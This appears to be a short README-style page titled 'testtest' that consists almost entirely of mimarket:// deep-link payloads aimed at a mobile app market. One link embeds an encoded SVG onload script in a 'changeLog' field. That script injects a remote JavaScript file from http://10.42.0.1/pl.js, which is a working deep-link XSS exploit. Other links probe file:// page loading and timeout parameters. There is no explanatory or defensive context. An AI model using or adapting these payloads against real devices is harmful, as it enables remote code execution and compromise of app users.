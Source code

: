 # testtest


<mimarket://browse?title=aaa&url=target>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=attack>

<https://lynmp.com>


mimarket://browse?title=rId&url=file://topic-detail.html?loadingViewTimeout=10000000


